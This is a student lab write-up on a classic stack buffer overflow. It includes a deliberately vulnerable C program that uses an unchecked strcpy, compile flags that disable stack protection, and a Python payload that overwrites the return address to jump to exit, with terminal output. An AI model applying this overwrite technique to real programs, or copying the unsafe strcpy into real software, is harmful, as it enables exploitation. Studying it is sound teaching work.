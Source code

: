 # Lab3 - Buffer overflow

## Simple buffer overflow example

## What are we going to do?
This example shows that after calling strcpy function, just exit program not returning to the point it was called.
To do that, we need to overwrite the return address of the strcpy function.

## Overview of process 
1. Set a address you want to jump. In this example, we just want to find out the address where the program exit immediately. Later on, this address will be the address you want to execute!!
2. Find where the strcpy return address is.(It's a brute force method)
3. And then, run the c program with a parameter containing the address where you want to jump.(We are going to use the address from the Step1)

## Steps in detail
1. Compile the c program below like this. '-z execstack' marks the stack as executable.
```
gcc -g -z execstack -fno-stack-protector ans_check5.c -o ans_check5
```
* gcc option explanation
-g : default debug information
-z execstack : marks the stack as executable
-fno-stack-protector : disables stack protection
-o : set output file name

2. Execute below to find out the address we want to jump. As you can see, 0x080485b3 is the address we want to jump!
```
[02/09/22]seed@VM:Byeongchan$ objdump -D ans_check5 | grep -B 1 exit

08048400 <exit@plt>:
--
 80485b3:	6a 00                	push   $0x0
 80485b5:	e8 46 fe ff ff       	call   8048400 <exit@plt>
[02/09/22]seed@VM:Byeongchan$
```

3. Find out where the return address of strcpy function is! This is where brute force method comes in! Try like below changing the number of print count. If the program ended without printing 'About to exit!', that means return address was corrupted and the program was killed by the system.
```
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*47")
ans_buf is at address 0xbf88027c
Right answer!
About to exit!
Segmentation fault
[02/09/22]seed@VM:Byeongchan$ ./ans_check5 $(python -c "print '0'*48")
ans_buf is at address 0xbf8fe32c
Segmentation fault

```

4. Run like below. Python code will create meaning-less characters followed by exit return address. That return address will overwrite the return address of strcpy. If the program exit without 'Segmentation fault', then you found the right place!!!
```
ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
```

5. Result
* As you can notice, the program exit with special input parameter overwriting the return address 
```
[02/10/22]seed@VM:Byeongchan$ ans_check5
Usage: ans_check5 <answer>
[02/10/22]seed@VM:Byeongchan$ ans_check5 1
ans_buf is at address 0xbf8d9acc
Wrong answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 forty-two
ans_buf is at address 0xbfb8ad9c
Right answer!
About to exit!
[02/10/22]seed@VM:Byeongchan$ ans_check5 $( python -c "print '\xAA'*48 + '\xb3\x85\x04\x08'") 
ans_buf is at address 0xbf97bbdc
[02/10/22]seed@VM:Byeongchan$ 
```

# ans_check5.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_answer(char *ans) {

  int ans_flag = 0;
  char ans_buf[32];

  printf("ans_buf is at address %p\n", &ans_buf);

  strcpy(ans_buf, ans);

  if (strcmp(ans_buf, "forty-two") == 0)
    ans_flag = 1;

  return ans_flag;

}

int main(int argc, char *argv[]) {

  if (argc < 2) {
    printf("Usage: %s <answer>\n", argv[0]);
    exit(0);
  }
  if (check_answer(argv[1])) {
    printf("Right answer!\n");
  } else {
    printf("Wrong answer!\n");
  }
  printf("About to exit!\n");
  fflush(stdout);
}
```





```


  
```


